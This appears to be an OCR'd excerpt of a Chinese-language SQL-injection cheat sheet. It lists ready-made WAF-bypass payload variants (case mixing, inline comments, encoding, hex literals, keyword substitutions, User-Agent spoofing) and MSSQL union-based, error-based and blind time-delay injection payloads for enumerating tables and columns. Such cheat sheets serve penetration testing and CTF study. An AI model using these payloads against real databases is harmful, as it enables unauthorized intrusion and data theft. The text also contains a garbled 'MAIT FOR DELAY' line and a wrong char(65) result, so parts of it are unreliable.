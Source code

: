- Bypass WAF

    - `select password` => `SelEcT password` (大小寫)
    - `select password` => `select/**/password` (繞空白)
    - `select password` => `s%65lect%20password` (URLencode)
    - `select password` => `select(password)` (繞空白)
    - `select password` => `select%0apassword` (繞空白)
        - %09, %0a, %0b, %0c, %0d, %a0
    - `select password from admin` => `select password /*!from*/ admin` (MySQL註解)
    - `information_schema.schemata` => ``` `information_schema`.schemata ``` (繞關鍵字/空白)
        - ``` select xxx from`information_schema`.schemata``` 
    - `select pass from user where id='admin'` => `select pass from user where id=0x61646d696e` (繞引號)
        - `id=concat(char(0x61),char(0x64),char(0x6d),char(0x69),char(0x6e))`
    - `?id=0e2union select 1,2,3` (科學記號)
        - `?id=1union select 1,2,3`會爛
        - `?id=0e1union(select~1,2,3)` (~)
        - `?id=.1union select 1,2,3` (點)
    - `WHERE` => `HAVING` (繞關鍵字)
    - `AND` => `&&` (繞關鍵字)
        - `OR` => `||`
        - `=` => `LIKE`
        - `a = 'b'` => `not a > 'b' and not a < 'b'`
        - `> 10` => `not between 0 and 10`
    - `LIMIT 0,1` => `LIMIT 1 OFFSET 0` (繞逗號)
        - `substr('kaibro',1,1)` => `substr('kaibro' from 1 for 1)`
    - Multipart/form-data繞過
        - http://xdxd.love/2015/12/18/%E9%80%9A%E8%BF%87multipart-form-data%E7%BB%95%E8%BF%87waf/
    - 偽造User-Agent
        - e.g. 有些WAF不封google bot

## MSSQL
### Union-Based
- Column型態必須相同 可用`NULL`來避免
- Database contents
	* `SELECT * FROM information_schema.tables`
	* `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
### Error-Based
- 利用型別轉換錯誤
- `id=1 and user=0`
### Blind
- Conditional Errors
    - `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
- Conditional Time Delays
    - `MAIT FOR DELAY '0:0:10'`
    - `WAITFOR DELAY '0:0:10'`
    - `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`
 
### Other Knowledges 
- 子字串：
    - `SUBSTRING("abc", 1, 1) => 'a'`
- Ascii function
    - `ascii('A') => 65 `
- Char function
    - `char(65) => 'a'`
- Concatenation
    - `+`
    - `'a'+'b' => 'ab'`
- 空白字元
    - `01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20`
- IF語句
    - IF condition true-part ELSE false-part